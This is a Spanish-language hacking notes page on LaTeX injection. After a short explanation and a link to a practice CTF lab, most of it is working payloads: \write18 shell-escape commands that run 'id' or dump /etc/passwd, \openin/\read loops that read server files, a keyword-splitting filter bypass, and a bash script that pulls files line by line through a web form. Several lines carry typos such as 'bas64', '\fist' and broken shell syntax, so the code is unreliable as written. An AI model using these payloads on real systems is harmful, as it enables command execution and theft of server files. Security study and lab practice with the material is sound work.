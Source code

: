 # Inyecciones LaTeX

Tags: #LaTexInjection #OWASP #Explotacion 

Las **inyecciones LaTeX** son un tipo de ataque que se aprovecha de las vulnerabilidades en las aplicaciones web que permiten a los usuarios ingresar **texto formateado** en LaTeX. LaTeX es un sistema de composición de textos que se utiliza comúnmente en la escritura académica y científica.

Los ataques de inyección LaTeX ocurren cuando un atacante ingresa código LaTeX malicioso en un campo de entrada de texto que luego se procesa en una aplicación web. El código LaTeX puede ser diseñado para aprovechar vulnerabilidades en la aplicación y **ejecutar código malicioso** en el servidor.

Un ejemplo de una inyección LaTeX podría ser un ataque que aprovecha la capacidad de LaTeX para incluir gráficos y archivos en una aplicación web. Un atacante podría enviar un código LaTeX que incluya un enlace a un archivo malicioso, como un virus o un troyano, que podría infectar el servidor o los sistemas de la red.

Para evitar las inyecciones LaTeX, las aplicaciones web deben validar y limpiar adecuadamente los datos que se reciben antes de procesarlos en LaTeX. Esto incluye la eliminación de caracteres especiales y la limitación de los comandos que pueden ser ejecutados en LaTeX.

También es importante que las aplicaciones web se ejecuten con privilegios mínimos en la red y que se monitoreen regularmente las actividades de la aplicación para detectar posibles inyecciones. Además, se debe fomentar la educación sobre la seguridad en el uso de LaTeX y cómo evitar la introducción de código malicioso.

A continuación, se os proporciona el enlace correspondiente al proyecto de Github que nos descargamos para desplegar un laboratorio vulnerable donde poder practicar esta vulnerabilidad:

-   **Laboratorio LaTeX Injection**: [https://github.com/internetwache/Internetwache-CTF-2016/tree/master/tasks/web90/code](https://github.com/internetwache/Internetwache-CTF-2016/tree/master/tasks/web90/code)


## Comandos 

* [Latex-Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)
* [0day-Latex](https://0day.work/hacking-with-latex/)

Cuando si podamos usar el comando **input**
```bash
\immediate\write18{cat /etc/passwd | bas64 > output}
\input{output}

# En nuestra maquina victima nos podemos pegar el resultado en base64 en un archvivo llamado 'data' y aplicar el siguiente comando
❯ cat data | tr -d '\n' | base64 -d; echo  
```

Una forma de 'burlar' es colocar la palabra en pedazos
```bash
\def\first{pep}
\def\second{ito}
\fist\second                                    # Aqui nos uniria las dos palabras
```

```bash
\input{/etc/passwd}                             # Leera el '/etc/passwd'
```
Aveces esta sanitizado con **--shell-escape** y no nos deja generar el pdf, ya que restringe los comandos **input|include**

Podemos hacerlo de otra manera
```bash
\newread\file                                   # Leera la primer linea del '/etc/passwd'
\openin\file=/etc/passwd
\read\file to\line                              # Si agregamos esta linea mas veces, podremos ver las lineas que siguen unicas
\text{\line}
\closein\file
```

```bash
\newread\file                                   # Leera la primer linea del '/etc/passwd'
\openin\file=/etc/passwd
\read\file to\lineA                            
\read\file to\lineB 
\text{\lineA\lineB}                             # Podremos ver la primer y segunda linea en una sola linea
\closein\file
```

```bash
\newread\file                                   # Leer por multiples lineas, pero aveces no le gusta algunos caracteres
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

Una mejor alternativa para hacer el de múltiple líneas es hacerlo de la siguiente manera:
```bash
❯ nvim get_files.sh
	#!/bin/bash

	# Variables globales 
	declare -r main_url = "http://localhosts/ajax.php"
	filename = $1

	if [$1]; then
		read_file_to_line = "%0A\read\file%20to\line"
		for i in $(seq 1 100); do
			file_to_download = $(curl -s -X POST $main_url -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -d "content=\newread\file%0A\openin\file=$filename$read_file_to_line%0A\text{\line}%0A\closein\file&template=blank" | grep -i download | awk 'NF{print $NF}')

			if [$file_to_donwload]; then 
				wget $file_to_download &>/dev/null
				file_to_convert=$(echo $file_to_download | tr '/' ' ' | awk 'NF{print $NF}')
				pdftotext $file_to_convert
				file_to_read=$(echo $file_to_convert | sed 's/\.pdf/\.txt/')
				rm $file_to_convert
				cat $file_to_read | head -n 1
				rm $file_to_read
				read_file_to_line+="%0A\read\file%20to\line"
			else 
				read_file_to_line+="%0A\read\file%20to\line"
			fi
		done
	else
		echo -e "\n[!] Uso: $0 /etc/passwd\n\n"
	fi 


# En codigo ASCII
	# %0A = \n  (salto de linea)
	# %20 = Espacio
```

```bash
\immediate\write18{id > output}             # Para poder ejecutar comandos, en eset caso sera el comando 'id'

\newread\file                               # Para leer en un archivo generado
\openin\file=output
\read\file to\line                              
\text{\line}
\closein\file
```

```bash
\immediate\write18{cat /etc/passwd > output.txt}             # Para poder ejecutar comandos y mirarlo en la web, en un archivo que se crea llamado output.txt en la ruta de 'localhost/compile/output.txt'
```